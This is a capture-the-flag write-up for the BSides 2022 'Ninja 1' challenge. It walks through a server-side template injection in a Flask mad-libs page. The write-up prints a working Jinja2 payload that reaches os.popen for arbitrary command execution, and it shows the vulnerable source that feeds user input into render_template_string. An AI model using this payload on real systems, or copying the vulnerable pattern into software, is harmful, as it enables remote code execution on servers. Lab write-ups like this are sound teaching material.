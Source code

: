 ```yaml
---
title: bsides2022 – Ninja 1
tags: web python flask injection
---
```


## Challenge

> Part 1 of 3: tell me a secret

The provided website showed the following:

```
I just got back from a ___None___(adj1) party with EverSec.
Can you believe we got to eat __None___(adj2) pizza in ____None___(place)?!
Everyone got to choose their own toppings.
I made ___None___(topping1) and __None___(topping2) pizza, which is my favorite! How fun!
If that wasn't good enough already, ___None____(person) was there teaching exploits!
```

## Background

Providing any of the keys in the HTTP query will fill them instead of `None`. So requesting `[URL]?adj1=foo` returns:

```
I just got back from a ___foo___(adj1) party with EverSec. […]
```

Both multiple underscores and `None` indicates that python is at work here.

## Solution

Requesting {%raw%}`[URL]?adj1={{2*3}}`{%endraw%} returns:
```
I just got back from a ___6___(adj1) party with EverSec. […]
```

So it seems like when we escape anything with two curly braces, we have python code execution. And with a bit more exploration, we can get to full code execution: {%raw%}`[URL]?adj1={{request.application.__globals__.__builtins__.__import__('os').popen('[command]').read()}}`{%endraw%}.

Let's see what files we can access: {%raw%}`[URL]?adj1={{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}`{%endraw%} returns `ninja.py`.

Let's get the contents of that file: {%raw%}`[URL]?adj1={{request.application.__globals__.__builtins__.__import__('os').popen('cat ninja.py').read()}}`{%endraw%}:

```python
from flask import Flask, request, render_template_string
app = Flask(__name__)
app.secret_key = 'flag\{ultimate_jinja_storm3\}'
@app.route('/')
def index():
    a = request.args.get('adj1') or None
    b = request.args.get('adj2') or None
    c = request.args.get('place') or None
    d = request.args.get('topping1') or None
    e = request.args.get('topping2') or None
    f = request.args.get('person') or None
    template = ''' <h1>Mad libs</h1><br><p>I just got back from a ___{a}___(adj1) party with EverSec. Can you believe we got to eat __{b}___(adj2) pizza in ____{c}___(place)?! Everyone got to choose their own toppings. I made ___{d}___(topping1) and __{e}___(topping2) pizza, which is my favorite! How fun! If that wasn't good enough already, ___{f}____(person) was there teaching exploits! </p> '''.format(a = a, b = b, c=c, d=d, e=e, f=f)
    return render_template_string(template)
if __name__ == '__main__': 
    pp.run(host='0.0.0.0', port=8080)
```

This also explains the vulnerability: flask's `render_template_string` escapes code with two curly braces.

And we have our flag: `flag\{ultimate_jinja_storm3\}`